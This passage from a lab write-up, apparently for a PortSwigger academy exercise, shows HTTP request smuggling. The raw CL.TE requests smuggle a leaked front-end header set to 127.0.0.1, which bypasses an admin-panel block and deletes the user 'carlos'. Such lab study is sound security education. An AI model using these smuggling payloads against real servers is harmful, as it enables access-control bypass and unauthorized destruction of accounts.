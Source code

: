 As you can see, we've leaked the `X-SnzJQv-Ip` header is the what front-end server will add!

**Now, we can smuggle that header to `127.0.0.1`. By doing that, we can bypass the access block in admin panel:**
```http
POST / HTTP/1.1
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SnzJQv-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

bypasspls=
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201171646.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201171702.png)

As you can see, we can access to the admin panel!

Let's delete user `carlos`!

```http
POST / HTTP/1.1
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Transfer-Encoding: chunked

0

GET /admin/delete HTTP/1.1
X-SnzJQv-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

username=carlos&bypasspls=
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201171835.png)

Nice!

# What we've learned:

1. Exploiting HTTP request smuggling to reveal front-end request rewriting